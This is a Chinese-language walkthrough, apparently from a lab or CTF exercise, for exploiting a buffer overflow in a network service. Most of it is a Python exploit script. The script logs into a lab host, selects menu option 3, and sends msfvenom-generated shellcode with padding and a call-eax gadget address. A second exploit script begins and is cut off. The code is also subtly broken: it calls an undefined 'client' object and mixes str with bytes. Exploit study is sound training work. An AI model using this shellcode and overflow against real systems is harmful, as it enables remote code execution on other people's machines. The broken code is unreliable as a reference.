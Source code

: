 需要运行，在输入密码，在输入ID，才能进行缓冲区溢出，这时候需要expect的特殊脚本语言来写：
https://en.wikipedia.org/wiki/Expect

最终代码：exp.py
------------------------------
import socket
dayu = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 面向网络的套接字
dayu.connect(('10.211.55.36', 7788))  # 连接
client.recv(512)
dayu.send("48093572\n")  # 发送密码，并按enter
client.recv(512)
dayu.send("3\n")   # 选择选项 3 并输入
client.recv(512)

# shellcode from msfvenom  msf的shellcode木马
buf =  b""
buf += b"\xdb\xda\xd9\x74\x24\xf4\xbb\x99\x95\x96\x1f\x58\x33"
buf += b"\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\xc1\x86\x74"
buf += b"\xea\xc0\x73\x8f\xf6\x71\xc7\x23\x93\x77\x4e\x22\xd3"
buf += b"\x11\x9d\x25\x87\x84\xad\x19\x65\xb6\x87\x1c\x8c\xde"
buf += b"\x1d\x0c\x59\x0d\x4a\xb0\xa6\x2b\x80\x3d\x47\xfb\xf2"
buf += b"\x6d\xd9\xa8\x49\x8e\x50\xaf\x63\x11\x30\x47\x12\x3d"
buf += b"\xc6\xff\x82\x6e\x07\x9d\x3b\xf8\xb4\x33\xef\x73\xdb"
buf += b"\x03\x04\x49\x9c"

# padding  填充字符
buf += "A" * (168 - len(buf))

# call eax gadget 调用eax jmp
buf += "\x63\x85\x04\x08\n"
dayu.send(buf)


解释：
client.recv(512) 中recv是recvsize的缩写，参考：https://blog.csdn.net/momod/article/details/105883550   当使用socket模块，在接收请求数据时一般用s.recv()函数。这个函数有一个bufsize参数，指定要接受的最大数据量。一般教程会推荐设定这个值为1024。如这个简单的服务器代码：
当修改bufsize，小于一定长度，比如128，运行后访问127.0.0.1：8080，网页不会报错，但不显示任何内容。
或者参考：https://docs.python.org/3/library/socket.html
------------------------------

最终代码2：exp2.py
------------------------------
import socket
 
# Target related variables
remotehost = "10.211.55.36"
remoteport = 7788
menuoption = 3
agentid = 48093572
 